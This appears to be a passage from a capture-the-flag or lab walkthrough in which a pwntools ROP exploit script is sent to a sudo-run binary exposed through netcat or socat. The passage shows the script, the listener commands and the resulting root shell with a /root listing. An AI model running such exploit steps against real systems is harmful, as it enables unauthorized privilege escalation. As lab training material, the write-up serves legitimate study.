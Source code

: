 ```python
signal.signal(signal.SIGINT,def_handler)

if __name__ == "__main__":	
    try:
        target = remote("192.168.56.132",6666) # Remote server connection
    except Exception as e:
        log.error(str(e))
    target.sendline(payload) # Exploit payload sending
    target.interactive()
```

`chmod u+x ./rop_exploit.py`

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`nc -lnvp 6666 | sudo /opt/quiz/shop`:
```
Listening on 0.0.0.0 6666 ←
```

🔄 Alternative Step.

`./socat TCP-LISTEN:6666 EXEC:'sudo /opt/quiz/shop'`:

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`./rop_exploit.py`:
```
[+] Opening connection to 192.168.56.132 on port 6666: Done ←
[*] Switching to interactive mode
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

```
Connection received on 192.168.56.118 34494 ←
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) grupos=0(root) ←
```

`cd /root`

`ls -alps`:
```
total 40
4 drwx------  5 root root 4096 Nov  5  2023 ./
4 drwxr-xr-x 20 root root 4096 Nov  1  2023 ../
4 -rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 Nov  1  2023 .local/
8 -rw-------  1 root root 5527 Nov  5  2023 .mysql_history
4 -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4 drwx------  2 root root 4096 Nov  1  2023 .ssh/
4 -rw-r--r--  1 root root   30 Nov  1  2023 root.txt ←
4 drwx------  3 root root 4096 Nov  1  2023 snap/
```
